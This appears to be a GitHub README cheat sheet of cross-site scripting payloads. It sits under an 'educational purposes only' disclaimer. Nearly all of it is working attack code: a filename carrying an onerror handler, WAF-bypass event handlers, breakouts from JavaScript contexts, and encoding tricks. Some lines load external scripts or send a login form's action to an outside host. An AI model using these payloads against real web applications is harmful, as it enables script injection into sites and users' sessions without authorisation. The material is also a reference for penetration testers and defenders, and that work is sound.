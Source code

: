 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.


Linux filenames and uploads
==============
This has been a trick I have used for years. When I am lazy, I find my trusty file
```html
<img src=a onerror=prompt()>.pdf
```
Linux allows you to create this file. Windows, well they don't. Use this if you are lazy like me.
```bash
touch "<img src=a onerror=prompt()>.pdf"
```

Able to inject script, iframe, anchor but something is parsing your input?
==============
%0A,%1A,%0B,%1B,%0C,%1C,%0D,%1D,%0E,%1E,%0F,%1F may be able to help you
```html
http://yourhost/blah?Parameter="><a href="%0F%1Fjavascript:prompt(123)">asdf
http://yourhost/blah?Parameter="><iframe src="%0F%1Fhttps://www.aswsec.com/"></iframe>
http://yourhost/blah?Parameter="><script src="%0B%1Fhttps://www.aswsec.com/pen-test/simple.js"></script>
```

Did you break out of a tag and script, iframe, img, a, etc are all blocked by the WAF?
==============

Did they block onerror onload onclick? It is important to remember that the basic events work even with elements not part of html. Try something like this:
```html
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
If you just need to break out for Proof of Concept and can't use a > to close your tag, this will utilize the " or ' in your injection depending on the developer's choice for the attribute you are breaking.
```html
" onclick="prompt(1)
' onclick='prompt(1)
```
WAF got you down? There are a ton of bypasses, look at HTML5 for more ideas also (Just remember IE vs Firefox and HTML5 support.
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
<details/open/ontoggle="alert`1`">
<video onmouseenter=prompt(123)>
<video onwheel=prompt(123)>
<math><maction actiontype="statusline" 
xlink:href="http://www.aswsec.com/pen-test/x.svg">CLICKME<mtext></mtext></maction>
<button/formaction=https://www.aswsec.com/pen-test/validateLogin.html>Login<!--
```
Here you will find a great resource: https://html5sec.org/

Here you will find more ideas:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

Don't forget the injection might not be a form tag but in the javascript.
==============
```html
";prompt(1);//

';prompt(1);//
```

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.
```html
"};prompt(1);//
```
You may need to reconstruct the function
```html
"};prompt(1);function whatever(){//
```
Sometimes you can't reconstruct but you can make the Javascript right
```
"},function(data){});prompt(1);(//
```
Don't forget %0D%0A if you need a new line and it renders as a new line

Obscure Breakout
==============
If you copy the two alerts and paste into the Console of the web browser, execute and get NaN
```html
EXTREMELY Useful if you can't use ; or // to escape your function calls. You may have to
reconstruct your functions using ') or matching the total number of parameters and you may have to
clean up the end by calling the function again and passing useless data, but you javascript has to be correct.
alert(1)+alert(2)
NaN
```
```html
a'*prompt(123)*'
<script>
var a = 'a'*prompt(123)*'a';
var b = "a"*prompt(456)*"a";
</script>
```
```
http://yourtarget/whatever?a=<a &a= onclick=prompt(123) &a= >adsf
```
That would render potentially
```html
<a , onclick=prompt(123) , >asdf
```
Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```html
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
Just for fun
==============
```html
<a/href="data:text/html;charset=utf-8,<script>alert(123)</script>">Just Interesting</a>
```
Internet Explorer can be your friend
==============
A lot of times you will notice that " or ' has become %22 or %27 in Chrome, Firefox, Opera etc. But did you try Internet Explorer. Many times you can get an Internet Explorer only XSS due to how the browser works.

Interesting XSS
==============
```html
<xxxxxx onmouseover=confirm(/Mouse&nbsp;Test&nbsp;It/.source)>Example 123
<img src=a onerror="self['prompt'](2)">
```
Just a few things to remember
==============
```
%3c -- <
%3e -- >
%2b -- + (this is important for sql injection)
%26%2360; -- <
%26%2362; -- >
\u003C -- <
\x27 -- '
%26lt; or %26lt -- <
%26gt; or %26gt -- >
```
Double Encoding Example
```
%253c
```
Triple Encoding
```
%25253c
```
Override the getter for User Agent is pulled from browser vs header
```javascript
navigator.__defineGetter__('userAgent',function(){return '<details open ontoggle=prompt(\'asdf\')>'});navigator.userAgent
```

